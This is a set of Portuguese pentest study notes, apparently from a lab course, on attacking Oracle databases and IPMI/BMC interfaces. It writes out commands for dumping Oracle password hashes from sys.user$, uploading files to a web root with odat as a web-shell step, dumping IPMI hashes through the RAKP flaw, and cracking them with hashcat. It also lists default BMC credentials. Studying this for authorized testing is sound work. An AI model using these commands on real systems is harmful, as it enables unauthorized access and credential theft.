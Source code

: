 - select * from user_role_privs;
- sqlplus scott/tiger@10.129.204.235/XE as sysdba -> tentar escalar user normal logado para root
- SELECT name, password FROM sys.user$;  -> ver todos os hashes de senha de usuario


Podemos seguir muitas abordagens quando tivermos acesso a um banco de dados Oracle. Depende muito das informações que temos e de toda a configuração. No entanto, não podemos adicionar novos usuários nem fazer modificações. A partir deste ponto, poderíamos recuperar os hashes de senha do sys.user$ e tente quebrá-los offline. A consulta para isso seria semelhante à seguinte:

- select name, password from sys.user$;

Outra opção é fazer upload de um shell da web para o destino. No entanto, isso requer que o servidor execute um servidor web, e precisamos saber a localização exata do diretório raiz do servidor web. No entanto, se soubermos com que tipo de sistema estamos lidando, podemos tentar os caminhos padrão, que são: </br>
Linux	/var/www/html </br>
Windows	C:\inetpub\wwwroot </br>

- echo "Oracle File Upload Test" > testing.txt
- ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
- curl -X GET http://10.129.204.235/testing.txt
---

## 📂 IPMI

Interface de gerenciamento de plataforma inteligente (IPMI) é um conjunto de especificações padronizadas para sistemas de gerenciamento de host baseados em hardware usados para gerenciamento e monitoramento de sistemas. Ele atua como um subsistema autônomo e funciona independentemente do BIOS, CPU, firmware e sistema operacional subjacente do host. </br>
O IPMI é normalmente usado de três maneiras:
- Antes que o sistema operacional seja inicializado para modificar as configurações do BIOS
- Quando o host estiver totalmente desligado
- Acesso a um host após uma falha do sistema </br>

O IPMI se comunica pela porta 623 UDP e os sistemas que usam o protocolo IPMI são chamados de Controladores de Gerenciamento de Baseboard (BMCs).

- Se pudermos acessar um BMC durante uma avaliação, obteremos acesso total à placa-mãe host e poderemos monitorar, reiniciar, desligar ou até mesmo reinstalar o sistema operacional host.
- nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
- use auxiliary/scanner/ipmi/ipmi_version 
- senha padrões como root:calvin / Administrator:randomized 8-character string consisting of numbers and uppercase letters / ADMIN:ADMIN podem ser encontradas as vezes.
- caso senhas padrões não funcionem, ainda se da para usar a uma falha no protocolo RAKP no IPMI 2.0
- use auxiliary/scanner/ipmi/ipmi_dumphashes
- hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt.gz -a 0 --status
- hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
- hashcat

## 🧰 Extras e Ferramentas Úteis

Ferramenta para buscar segredos e chaves de API expostas:

🔐 TruffleHog: busca por credenciais, secrets e chaves de API em históricos de código, repositórios Git, arquivos e strings expostas.


